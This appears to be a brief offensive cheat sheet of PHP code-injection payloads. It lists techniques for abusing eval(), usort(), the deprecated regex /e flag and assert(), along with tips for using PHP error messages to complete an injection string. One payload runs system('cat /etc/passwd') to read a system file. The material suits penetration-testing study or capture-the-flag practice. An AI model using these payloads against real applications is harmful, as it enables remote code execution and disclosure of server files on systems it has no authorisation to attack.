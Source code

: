 ### When injecting php, warning == find & error == not fine
### As you work through which characters complete the injection string, when you hit a character in the php error that was not in your string - try commenting the end of the string
#### Abuse eval() being used, inject a concatenated command:  
`".phpinfo();"`
#### usort()
`id);}phpinfo();//`
#### /e (evaluate) flag allowed in regex
`name=phpinfo();&pattern=/lamer/e&base=Hello lamer`  
#### Assert function being used (when used incorrectly assert will evaluate the value passed to it)
`name='.system('cat+/etc/passwd');'`
